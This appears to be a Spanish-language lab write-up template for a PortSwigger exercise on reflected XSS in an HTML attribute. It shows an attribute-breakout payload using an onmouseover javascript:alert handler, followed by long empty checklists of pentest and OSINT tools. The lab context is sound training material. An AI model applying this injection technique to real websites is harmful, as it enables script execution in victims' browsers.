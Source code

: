 # 👨‍🏫 WRITEUP RESUMEN

<details>

<summary>👁️ RECONOCIMIENTO PASIVO ✔️</summary>

#### AUDITORIA DE: ((Laboratorio: XSS reflejado en atributo con corchetes angulares codificados en HTML))

***

***

**RECONOCIMIENTO PASIVO**

*   [x] BROWSER👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    URL:


    https://0a6900d60325fb2e82c3ec8200f20038.web-security-academy.net/?search=

    HTML INYECTABLE:



    <form action="/" method="GET">
                                <input type="text" placeholder="Search the blog..." name="search" value="P4IM0N" onmouseover="javascript:alert('P4IM0N-XSS')<!--&quot;">
                                <button type="submit" class="button">Search</button>
    </form>

    ```

    ![XSSentreCORCHETS\_ANGULARES](https://github.com/MammaniNelsonD/P4IM0N\_H4CKING/assets/114308492/19b4767d-a7ad-4dac-9c37-966dd2881c5c)

    ![PAYLOADparaXSSentreCORCHETES\_ANGULARES](https://github.com/MammaniNelsonD/P4IM0N\_H4CKING/assets/114308492/187d5ee5-56aa-4bd6-9cf4-bea59760f67b)

    * CONCLUSION: TUVIMOS QUE IMPLEMENTAR UNA CARGA DEL VALOR P4IM0N PARA QUE SE COMPLETE EN EL VALOR DE VALUE Y CERRAMOS CON " LUEGO PAAR EVITAR EL USO DE CORCHETES ANGULARES(MAYOR Y MEOR QUE), DIRECTAMENTE EJECUTAMOS JAVASCRIPT:ALERT Y LO TERMINAMOS CON UN COMENTARIO POR QUE NOS CARGABA AL ULTIMO UNA CODIFICACION QUE INTERRUMPIA LA EJECUCION DEL PAYLOAD, Y BINGO LO RESOLVIMOS.

***

***

</details>

🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫🟫

<details>

<summary>🔬 ANALISIS FORENSE ❌</summary>

**ANALISIS FORENSE**

*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] AUTOPSY👈 [https://tools.kali.org/forensics/autopsy](https://tools.kali.org/forensics/autopsy)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/autopsy-digital-forensics.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] VOLATILITY👈 [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/volatility-memory-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTK👈 [https://www.accessdata.com/products-services/forensic-toolkit-ftk](https://www.accessdata.com/products-services/forensic-toolkit-ftk)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ftk-digital-forensic.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DFF👈 (Digital Forensics Framework) [https://github.com/arxsys/dff](https://github.com/arxsys/dff)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSK👈 (The Sleuth Kit) [https://tools.kali.org/forensics/sleuthkit](https://tools.kali.org/forensics/sleuthkit)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] X-WAYS Forensics👈 [https://www.x-ways.net/forensics/index-m.html](https://www.x-ways.net/forensics/index-m.html)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FOREMOST👈 [https://github.com/korczis/foremost](https://github.com/korczis/foremost)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HxD👈 [https://mh-nexus.de/en/hxd/](https://mh-nexus.de/en/hxd/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] HxD👈 [https://mh-nexus.de/en/hxd/](https://mh-nexus.de/en/hxd/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] XXD👈 [https://tools.kali.org/forensics/xxd](https://tools.kali.org/forensics/xxd)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦🟦

<details>

<summary>👊 RECONOCIMIENTO ACTIVO ❌</summary>

**RECONOCIMIENTO ACTIVO**

*   [ ] PING👈 --------------------------------->[https://www.kali.org/tools/fping/](https://www.kali.org/tools/fping/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NMAP👈 --------------------------------->[https://nmap.org/ ](https://nmap.org/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/nmap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NESSUS👈 --------------------------------->[https://es-la.tenable.com/products/nessus/nessus-essentials](https://es-la.tenable.com/products/nessus/nessus-essentials)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OPENVAS👈 --------------------------------->[https://github.com/greenbone/openvas-scanner](https://github.com/greenbone/openvas-scanner)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NIKTO👈 --------------------------------->[https://github.com/sullo/nikto](https://github.com/sullo/nikto)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] METASPLOIT👈 --------------------------------->[https://www.metasploit.com/ ](https://www.metasploit.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/metasploit.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BURP SUITE👈 --------------------------------->[https://portswigger.net/web-security ](https://portswigger.net/web-security)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/burpsuite.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OWASP ZAP👈 --------------------------------->[https://github.com/zaproxy/zaproxy](https://github.com/zaproxy/zaproxy)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIRESHARK👈 --------------------------------->[https://github.com/wireshark/wireshark ](https://github.com/wireshark/wireshark)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/wireshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRBUSTER👈 --------------------------------->[https://github.com/KajanM/DirBuster](https://github.com/KajanM/DirBuster)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] DIRBUSTER👈 --------------------------------->[https://github.com/KajanM/DirBuster](https://github.com/KajanM/DirBuster)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SQLMAP👈 --------------------------------->[https://github.com/sqlmapproject/sqlmap ](https://github.com/sqlmapproject/sqlmap)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/sqlmap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SQLMAP👈 --------------------------------->[https://github.com/sqlmapproject/sqlmap ](https://github.com/sqlmapproject/sqlmap)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/sqlmap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WPSCAN👈 --------------------------------->[https://wpscan.com/register/](https://wpscan.com/register/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] JOOMSCAN👈 --------------------------------->[https://www.kali.org/tools/joomscan/](https://www.kali.org/tools/joomscan/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOBUSTER👈 --------------------------------->[https://www.kali.org/tools/gobuster/](https://www.kali.org/tools/gobuster/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOBUSTER👈 --------------------------------->[https://www.kali.org/tools/gobuster/](https://www.kali.org/tools/gobuster/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FFUF👈 --------------------------------->[https://www.kali.org/tools/ffuf/ ](https://www.kali.org/tools/ffuf/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ffuf.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FFUF👈 --------------------------------->[https://www.kali.org/tools/ffuf/ ](https://www.kali.org/tools/ffuf/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ffuf.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TRACEROUTE👈 --------------------------------->[https://www.kali.org/tools/traceroute/](https://www.kali.org/tools/traceroute/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBCLIENT👈 --------------------------------->[https://www.kali.org/tools/samba/](https://www.kali.org/tools/samba/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TELNET👈 --------------------------------->[https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux](https://wowgold-seller.com/es/stories/133-how-to-install-and-use-telnet-on-kali-linux)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH👈 --------------------------------->[https://www.kali.org/tools/openssh/ ](https://www.kali.org/tools/openssh/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ssh-secure-shell.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SSH👈 --------------------------------->[https://www.kali.org/tools/openssh/ ](https://www.kali.org/tools/openssh/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/ssh-secure-shell.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] NETCAT👈 --------------------------------->[https://www.kali.org/tools/netcat/ ](https://www.kali.org/tools/netcat/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/netcat-conexiones.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] FTP👈 --------------------------------->[https://www.kali.org/tools/netkit-ftp/](https://www.kali.org/tools/netkit-ftp/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TCPDUMP👈 --------------------------------->[https://www.kali.org/tools/tcpdump/](https://www.kali.org/tools/tcpdump/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TSHARK👈 --------------------------------->[https://www.kali.org/tools/wireshark/ ](https://www.kali.org/tools/wireshark/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/tshark.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BETTERCAP👈 --------------------------------->[https://www.kali.org/tools/bettercap/ ](https://www.kali.org/tools/bettercap/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/bettercap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBMAP👈 --------------------------------->[https://www.kali.org/tools/smbmap/](https://www.kali.org/tools/smbmap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SMBMAP👈 --------------------------------->[https://www.kali.org/tools/smbmap/](https://www.kali.org/tools/smbmap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WFUZZ👈 --------------------------------->[https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WFUZZ👈 --------------------------------->[https://www.kali.org/tools/wfuzz/](https://www.kali.org/tools/wfuzz/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] BETTERCAP👈 --------------------------------->[https://www.kali.org/tools/bettercap/ ](https://www.kali.org/tools/bettercap/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/bettercap.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMMIX👈 --------------------------------->[https://www.kali.org/tools/commix/](https://www.kali.org/tools/commix/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMMIX👈 --------------------------------->[https://www.kali.org/tools/commix/](https://www.kali.org/tools/commix/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SKIP-FISH👈 --------------------------------->[https://www.kali.org/tools/skipfish/](https://www.kali.org/tools/skipfish/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WAPITI👈 --------------------------------->[https://www.kali.org/tools/wapiti/](https://www.kali.org/tools/wapiti/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] ETTERCAP👈 --------------------------------->[https://www.kali.org/tools/ettercap/](https://www.kali.org/tools/ettercap/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] WIFITE👈 --------------------------------->[https://www.kali.org/tools/wifite/](https://www.kali.org/tools/wifite/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SPOOFTOOPH👈 --------------------------------->[https://www.kali.org/tools/spooftooph/](https://www.kali.org/tools/spooftooph/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] CRACKMAPEXEC👈 --------------------------------->[https://www.kali.org/tools/crackmapexec/](https://www.kali.org/tools/crackmapexec/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪🟪

<details>

<summary>🕵️ INVESTIGACION OSINT ❌</summary>

**INVESTIGACION OSINT**

*   [ ] OSINT Framework👈 --------------------------------->[https://osintframework.com/](https://osintframework.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Maltego👈 --------------------------------->[https://www.kali.org/tools/maltego/](https://www.kali.org/tools/maltego/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Maltego👈 --------------------------------->[https://www.kali.org/tools/maltego/](https://www.kali.org/tools/maltego/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Recon-ng👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] Recon-ng👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] theHarvester👈 --------------------------------->[https://www.kali.org/tools/theharvester/](https://www.kali.org/tools/theharvester/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] theHarvester👈 --------------------------------->[https://www.kali.org/tools/theharvester/](https://www.kali.org/tools/theharvester/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] GOOGLE DORKS👈 --------------------------------->[https://www.google.com/ ](https://www.google.com/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/google-dorking.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SHODAN👈 --------------------------------->[https://www.shodan.io/ ](https://www.shodan.io/)--->[PDF-TOOL](../../../manuales-de-tools-en-pdf-y-mas/tools-hacking-pdf/shodan.md)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OSRFrameworK👈 --------------------------------->[https://www.kali.org/tools/osrframework/](https://www.kali.org/tools/osrframework/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] SN0INT👈 --------------------------------->[https://www.kali.org/tools/sn0int/](https://www.kali.org/tools/sn0int/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] OSINTGRAM👈 --------------------------------->[https://github.com/Datalux/Osintgram](https://github.com/Datalux/Osintgram)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] TWOSINT👈 --------------------------------->[https://github.com/falkensmz/tw1tter0s1nt](https://github.com/falkensmz/tw1tter0s1nt)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X FACEBOOK👈 --------------------------------->[https://intelx.io/tools?tab=facebook](https://intelx.io/tools?tab=facebook)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X PERSONAS👈 --------------------------------->[https://intelx.io/tools?tab=person](https://intelx.io/tools?tab=person)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X TELEFONOS👈 --------------------------------->[https://intelx.io/tools?tab=telephone](https://intelx.io/tools?tab=telephone)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X Ubicación 2 Mapa👈 --------------------------------->[https://intelx.io/tools?tab=location](https://intelx.io/tools?tab=location)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X IMAGEN👈 --------------------------------->[https://intelx.io/tools?tab=image](https://intelx.io/tools?tab=image)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X NOMBRE DE USUARIO👈 --------------------------------->[https://intelx.io/tools?tab=username](https://intelx.io/tools?tab=username)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X HASH INVERSA👈 --------------------------------->[https://intelx.io/tools?tab=hash](https://intelx.io/tools?tab=hash)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X ARCHIVOS👈 --------------------------------->[https://intelx.io/tools?tab=file](https://intelx.io/tools?tab=file)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] INTELLIGENCE X VIN VEHICULOS👈 --------------------------------->[https://intelx.io/tools?tab=vin](https://intelx.io/tools?tab=vin)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:
*   [ ] COMPLETAR...👈 --------------------------------->[https://www.paimon.com.ar/](https://www.google.com/)

    ```python
    # Espacio para fragmento de código Python -->
    ```

    * CONCLUSION:

***

***

</details>

🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩🟩

<details>

<summary>⛓️ HASHES Y DESENCRIPTADOS ❌</summary>

**HASHES Y DESENCRIPTADOS**

